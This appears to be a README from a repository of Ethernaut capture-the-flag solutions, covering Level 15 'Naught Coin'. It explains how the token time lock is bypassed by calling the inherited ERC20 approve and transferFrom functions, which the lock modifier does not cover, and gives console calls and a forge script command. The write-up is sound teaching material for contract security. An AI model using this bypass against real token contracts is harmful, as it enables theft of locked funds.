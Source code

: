 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/15-naught.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 15 - Naught Coin</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 15 - Telephone](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-15-naught-coin)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
  - [In the browser's console](#in-the-browsers-console)
  - [With Foundry using `forge`:](#with-foundry-using-forge)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Goals

<img src="../assets/requirements/15-naught-requirements.webp" width="800px"/>

## The hack

The NaughtCoin level is a bit weird as it is hard to imagine that anything like this would ever be implemented. However, it teaches us a valuable lesson about the importance of correctly implementing inherited functions.

We can see that the `transfer()` function has a `lockTokens` modifier.

```javascript
modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
}
```

So it looks like we won't be able to use the `transfer()` function to transfer the tokens to another address. But in the ERC20 standard, there is also a `transferFrom()` function, which allows another address to execute a transfer on our behalf if approved.

Since the `transferFrom()` function is not implemented in the NaughtCoin contract, its implementation will be the one defined in the OpenZeppelin contract, without the `lockTokens` modifier.

In other words, we can use the `transferFrom()` function to transfer the tokens to another address without worrying about the time lock.

## Solution

### In the browser's console

1.  Let's find out how many tokens you have:

```javascript
const balance = await contract.balanceOf(player);
```

2.  Approve another address to transfer tokens on your behalf:

```javascript
await contract.approve("TheFutureCoinOwner", balance);
```

3.  Transfer the tokens to another address using the transferFrom function:

```javascript
await contract.transferFrom(player, "TheFutureCoinOwner", balance);
```

### With Foundry using `forge`:

Edit the `futurCoinOwner` address in the `script/15_NaughtCoin.s.sol` file:

```javascript
 address futurCoinOwner = "your wallet address here";
```

Then run the script:

```bash
forge script script/15_NaughtCoin.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Always be careful when inheriting from other contracts. And make sure to implement the inherited functions correctly.

## Reference

- The Seneca hack & non implemented `pause()` function: https://rekt.news/seneca-protocol-rekt/

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
